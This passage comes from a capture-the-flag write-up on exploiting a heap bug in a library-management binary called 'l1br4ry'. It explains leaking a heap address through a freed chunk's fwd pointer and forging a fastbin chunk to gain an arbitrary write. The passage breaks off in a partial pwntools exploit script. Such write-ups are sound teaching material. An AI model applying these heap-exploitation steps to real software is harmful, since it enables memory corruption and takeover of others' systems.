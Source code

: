 ```console
> d

Main menu
---------------------------
  0: Your favorite:
---------------------------
a: add a new one
q: exit
>
```

It still tried to print the original favorite book, even though it's deleted. Currently no text shows up, because the `fwd` pointer of the free chunk points to `NULL`, as it's the last (and only) chunk on the free list. However, it should be clear from here
that we can leak a heap address (the `fwd` pointer of a free chunk).

Remember how the program allowed us to edit any book? Well it even allows us to edit the favorite book, which means we can overwrite the `fwd` pointer to be whatever we want, adding a new chunk to the free list. We will use this to put an already allocated chunk on the free list. Then, we can allocate the `book_array` in the "fake" chunk we just added to the free list. Since we control the fake chunk, we control the memory where the book_array is allocated, and we control all the pointers in the book array. We can set one of them to point to the memory we want to write to, and then setting the title for that "book" will actually write to memory where we set the pointer to.

Why not just make the fake chunk point to a GOT address directly and overwrite a GOT address? Well, when a fastbin chunk is allocated, glibc checks to make sure the size of the chunk matches the index of the bin it's getting the chunk from. Since we don't control any data around any of the GOT addresses, we can't create a chunk with the right size, and when we try to allocate that chunk we'll fail an assertion.

## Getting a heap leak

As mentioned above, we can leak a heap address by deleting the favorite book and then looking at the `fwd` pointer printed out in the book list. We need to make sure the favorite book is not the last book on the list. In order to do that, all we have to do is add two books, make book one the favorite, then free book two, and then free book one. Book one will then point to another chunk, and printing the book list will leak memory:

``` python
#!/usr/bin/env python2

from pwn import *

context(arch="amd64", os="linux")

p = process('./l1br4ry')
# gdb.attach(p, '''
# ''')

def add_book(title, description, rating):
    p.sendline('a')
    p.sendline(title)
    p.sendline(str(rating))
    p.sendline(description)

def favorite_book(index):
    p.sendline(str(index))
    p.sendline('f')

def delete_book(index):
    p.sendline(str(index))
    p.sendline('d')

def edit_title(index, title, description, rating):
    p.sendline(str(index))
```